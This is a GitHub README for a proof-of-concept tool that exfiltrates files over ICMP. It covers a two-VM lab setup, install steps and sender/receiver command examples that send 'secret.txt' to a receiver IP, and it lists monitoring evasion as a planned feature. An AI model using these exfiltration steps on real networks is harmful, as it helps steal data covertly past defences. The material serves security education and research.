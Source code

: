 # ICMP-Exfiltration-PoC
Proof-of-concept scripts to demonstrate file exfiltration using ICMP protocol.

---

## 📌 Overview

This repository contains two Python scripts (`sender.py` and `receiver.py`) demonstrating how files can be covertly transmitted using the ICMP protocol, commonly employed for network diagnostics (ping). This PoC is intended solely for educational and research purposes.
To read the entire POC guide, please follow my [Medium](https://medium.com/@black18t18/data-exfiltration-via-icmp-protocol-b5c9e8f5cf6f) artivle and consider the possibility to follow me.

---

## 📦 Requirements

Make sure Python 3 is installed along with these dependencies:

```bash
pip install scapy pycryptodome requests
```

Or use the provided `requirements.txt` file:

```bash
pip install -r requirements.txt
```

---

## 🖥 Setup

Use two virtual machines connected via an internal network:

- **Sender VM:** Linux Mint (or similar)
- **Receiver VM:** Kali Linux (or similar)

Configure static IPs (example setup):

- Sender: `192.168.100.10`
- Receiver: `192.168.100.20`

---

## 🚀 Usage

### Receiver

On Kali Linux:

```bash
sudo python3 receiver.py -P <PortTag> -R <Password> -o <OutputFileName> -v
```

Example:

```bash
sudo python3 receiver.py -P 6666 -R "MySecurePass" -o output.txt -v
```

### Sender

On Linux Mint:

```bash
sudo python3 sender.py -L <FileToSend> -P <Password> -D <ReceiverIP> -R <PortTag> -v
```

Example:

```bash
sudo python3 sender.py -L secret.txt -P "MySecurePass" -D 192.168.100.20 -R 6666 -v
```

---

## ⚠️ Ethical Considerations

This PoC is strictly for educational purposes. Unauthorized use on any network or system without explicit permission is illegal and unethical. Always perform these tests within controlled environments.

---

## 📌 Future Improvements

- Payload obfuscation and encoding
- Packet compression
- Integrity checks (checksums, HMAC)
- Multi-file support
- Evasion techniques against network monitoring

Feel free to contribute and suggest improvements!

---

## 🔖 License

This project is licensed under the MIT License. See the [LICENSE](https://github.com/Shinigami81/ICMP-Exfiltration-PoC/blob/main/MIT%20License) file for details.
